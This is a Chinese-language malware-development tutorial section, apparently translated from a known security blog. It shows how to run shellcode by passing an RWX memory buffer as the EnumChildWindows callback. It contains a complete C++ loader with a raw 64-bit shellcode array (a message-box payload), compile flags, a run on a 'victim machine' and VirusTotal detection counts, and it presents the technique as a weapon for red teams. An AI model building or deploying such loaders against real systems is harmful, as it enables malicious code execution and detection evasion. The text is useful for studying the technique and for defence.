





\newpage
\subsection{恶意软件开发技巧：通过 EnumChildWindows 运行 shellcode（C++ 示例）}

这一节是我自我研究一个有趣技巧的结果：通过枚举子窗口来运行 shellcode。

{width="80%"}

### EnumChildWindows

枚举指定父窗口的子窗口，把每个子窗口的句柄传给应用程序创建的回调函数。

`EnumChildWindows` 会一直持续，直到最后一个子窗口被枚举完毕，或者回调函数返回 FALSE：

```cpp
BOOL EnumChildWindows(
  HWND  hWndParent,
  WNDENUMPROC lpEnumFunc,
  LPARAM  lParam
);
```

### 实战示例

我们来看一个实战例子。这个技巧相当简单，与上一个技巧类似：

```cpp
/*
 * hack.cpp - run shellcode via EnumChildWindows. 
 C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/
 2022/07/13/malware-injection-21.html
*/
#include <windows.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload),
  MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  return 0;

```

首先我们通过 `VirtualAlloc` 在当前进程中分配内存缓冲区：

```cpp
LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), 
MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

然后把我们的载荷「复制」到这块内存区域：

```cpp
RtlMoveMemory(mem, my_payload, sizeof(my_payload));
```

接着，在 `EnumChildWindows` 的回调函数指针位置，我们指定这块内存区域：

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

和往常一样，为了简单起见我们使用 meow-meow 消息框作为载荷：

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### 演示

我们来看一切实际运行的样子。编译我们的「恶意软件」：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

然后在我们的受害机器上运行：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把 `hack.exe` 上传到 VirusTotal：

{width="80%"}

所以，69 个 AV 引擎中有 20 个把我们的文件检测为恶意。

<https://www.virustotal.com/gui/file/71c4294f90d6d6c3686601b519c2401a58bb1fb03ab9ca3975eca7231af77853/detection>

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[EnumChildWindows](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumchildwindows)  
[source code in github](https://github.com/cocomelonc/2022-07-13-malware-injection-21)
